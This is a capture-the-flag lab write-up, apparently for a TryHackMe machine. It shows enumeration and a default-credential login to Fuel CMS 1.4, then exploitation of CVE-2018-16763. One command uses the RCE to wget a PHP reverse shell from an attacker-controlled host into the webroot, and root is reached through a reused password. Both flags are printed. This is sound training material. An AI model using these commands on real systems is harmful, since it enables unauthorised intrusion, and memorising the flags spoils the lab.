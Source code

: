 ```yaml
---
sticker: lucide//flame
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# RECONNAISSANCE
---


We only got a website, let's check it out:



![](cybersecurity/images/Pasted%2520image%252020250409164857.png)

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:


![](cybersecurity/images/Pasted%2520image%252020250409164943.png)


We got a `/fuel` directory:



![](cybersecurity/images/Pasted%2520image%252020250409165010.png)

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250409165238.png)

Maybe default credentials still work, let's try:

![](cybersecurity/images/Pasted%2520image%252020250409165313.png)

There we go, default credentials work, let's proceed to exploitation phase.



# EXPLOITATION
---


Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:


![](cybersecurity/images/Pasted%2520image%252020250409165623.png)

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```


Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![](cybersecurity/images/Pasted%2520image%252020250409165739.png)

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this: 

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![](cybersecurity/images/Pasted%2520image%252020250409171154.png)

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![](cybersecurity/images/Pasted%2520image%252020250409171256.png)



# PRIVILEGE ESCALATION
---


First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](cybersecurity/images/Pasted%2520image%252020250409171335.png)

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:


![](cybersecurity/images/Pasted%2520image%252020250409172944.png)

We got a password, let's switch to root:

![](cybersecurity/images/Pasted%2520image%252020250409173005.png)

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


![](cybersecurity/images/Pasted%2520image%252020250409173046.png)


